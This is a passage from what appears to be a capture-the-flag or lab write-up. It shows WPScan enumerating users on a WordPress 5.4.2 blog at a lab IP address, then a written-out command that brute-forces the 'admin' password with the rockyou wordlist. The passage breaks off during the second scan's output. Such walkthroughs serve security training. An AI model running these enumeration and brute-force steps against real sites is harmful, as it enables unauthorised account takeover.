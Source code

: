 ```bash
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 31 15:10:31 2023
[+] Requests Done: 48
[+] Cached Requests: 5
[+] Data Sent: 11.895 KB
[+] Data Received: 302.953 KB
[+] Memory used: 150.684 MB
[+] Elapsed time: 00:00:03
```

Here we can see that I have retrieved an username, Admin!

Now I can try to retrieve the password:

```bash
wpscan --url 10.10.186.60/blog -e u -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.186.60/blog/ [10.10.186.60]
[+] Started: Sun Dec 31 15:29:27 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.186.60/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
```